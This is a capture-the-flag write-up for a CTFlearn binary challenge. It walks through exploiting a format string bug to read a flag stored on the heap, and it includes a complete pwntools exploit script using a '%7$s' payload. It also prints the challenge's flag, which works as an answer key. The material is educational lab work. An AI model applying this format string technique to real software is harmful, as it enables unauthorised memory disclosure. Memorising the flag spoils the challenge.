 # Readme
> Write-up author: jon-brandy
## DESCRIPTION:
I have loaded a flag for you. Just read it ;)

nc rivit.dev 10007

## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped. Also we're given the source code!

```
┌──(brandy㉿bread-yolk)-[~/Downloads/ctflearn/task]
└─$ file task
task: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d38bf9df4eb8b951df955703aa60132d5772fd5f, for GNU/Linux 3.2.0, not stripped
```

> BINARY PROTECTIONS

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/87f9bc36-8f45-4857-a35b-77bec00d8c3b)


2. Reviewing the source code, found a FSB and noticed the flag is allocated on the heap.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/e5a9f5b0-b8e8-4227-9fc5-931eedb78b12)


3. Remembering PIE is enabled and ASLR is on, hence we need to bruteforce the exact heap address where it stored the flag.
4. But luckily the author leak the flag location at the heap for us.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/752cc6ef-5d31-4edc-b6fb-aee891fa7c78)


5. Awesome! Anyway if you want to check whether the leaked heap address does stores the flag or not, you can set a breakpoint at printf call using gdbscript, then run `vis_heap_chunk` if you are using pwndbg.

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/6f966d18-9281-44c7-97bb-70f8dd120e61)


6. Nice, now let's find the offset which pointing to the flag at heap address.
7. Very easy to find it, simply search for offset which is writeable and the next offset is the one pointing to our flag at the heap.

> SEARCHING OFFSET

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/244a22ae-f209-4b67-9120-5f068a7d6670)


8. Great! Here's the full script:

> SCRIPT

```py
from pwn import * 

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
breakrva 0x1378
continue
""".format(**locals())

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'ERROR'
context.log_level = 'DEBUG'
# context.log_level = 'INFO'

def grab_heap_addr():
    sh.recvuntil(b'buffer: ')
    flag_addr = sh.recvline().strip()
    flag_addr = int(flag_addr, 16)
    return flag_addr

sh = start()

heap_addr = grab_heap_addr()
success(f'FLAG IN HEAP --> {hex(heap_addr)}')
p = b'%7$s'.ljust(8,b'A')
p += pack(heap_addr)
sh.sendline(p)

sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/d298d338-5fdc-4c9e-a78f-28af8c4883b1)


9. Succeed locally! Let's send it remotely.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/9552cdb8-2503-40fa-a53b-c3c6d82bf204)


10. Got the flag!


## FLAG

```
CTFlearn{ju57_4n_4rb17r4ry_r34d}
```
